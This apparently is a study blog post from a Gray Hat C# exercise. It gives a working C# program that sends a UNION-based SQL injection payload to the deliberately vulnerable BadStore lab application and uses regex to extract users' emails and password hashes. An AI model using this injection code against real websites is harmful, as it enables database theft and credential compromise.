 ```yaml
---
title: Creating a UNION based mutational fuzzer to dump the database.
date: 2021-06-12 10:45:47 +07:00
categories: greyhatcch2
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: Creating a UNION based mutational fuzzer to dump the database.
---
```


## This Program is a UNION-Based mutational fuzzer that will use UNION based queries to pull out the db in a single http request.

_UNION injection is faster than boolean based/blind injection_.
- 2 major aspects are required for a succesfull UNION injection - Balance out the number of columns using SELECT statements and programatically find the data using regex.
- We use the:
  > `SELECT function` to balance out columns.
  
  > `CONCAT function` to surround the data with padding we care about.
- We use the "Regex" class and the `MatchCollection` class using the `System.Text.RegularExpressions` namespace to find and match the surrounding padded data from the `CONCAT() function` and extract the data in between.

### Code Block:

```csharp
using System;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System.IO;
using System.Text.RegularExpressions;
using System.Web;


namespace Union_sql_fuzzer
{
    class Program
    {
        static void Main(string[] args)
        {
            string frontMarker = "FrOnTmArKeR";
            string middleMarker = "MiDdLeMaRkEr";
            string endMarker = "EnDmArKeR";

            string frontHex = string.Join("", frontMarker.Select(c => ((int)c).ToString("X2")));
            string middleHex = string.Join("", middleMarker.Select(c => ((int)c).ToString("X2")));
            string endHex = string.Join("", endMarker.Select(c => ((int)c).ToString("X2")));

            string url = "http://" + args[0] + "/cgi-bin/badstore.cgi";
            //payload definition slightly changed from source
            string payload = "fdsa' UNION ALL SELECT";
            payload += " NULL, NULL, NULL, CONCAT(0x" + frontHex + ", IFNULL(CAST(email AS";
            payload += " CHAR), NULL), 0x" + middleHex + ", IFNULL(CAST(passwd AS";
            payload += " CHAR), NULL), 0x" + endHex + ") FROM badstoredb.userdb# ";
            //HttpUtilty method used instead of Uri.EscapeUriString() method
            url += "?searchquery=" + HttpUtility.UrlEncode(payload) + "&action=search";
            Console.WriteLine("Fuzzing for union sql injections on url: \n" + url);

            //Making the Web request
            HttpWebRequest request = (HttpWebRequest)WebRequest.Create(url);
            string response = string.Empty;
            using (StreamReader reader = new StreamReader(request.GetResponse().GetResponseStream()))
                response = reader.ReadToEnd();

            //Regex definition
            Regex payloadRegex = new Regex(frontMarker + "(.*?)" + middleMarker + "(.*?)" + endMarker);
            MatchCollection matches = payloadRegex.Matches(response);
            foreach (Match match in matches)
            {
                Console.WriteLine("\r\n[+] Username found is: " + match.Groups[1].Value + "\t");
                Console.Write("[+] Password Hash found is: " + match.Groups[2].Value + "\n");
            }
        }
    }
}

```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/csharp/greyhatc/Ch2/UNION_sql_fuzzer/union_sql_fuzzer.png)
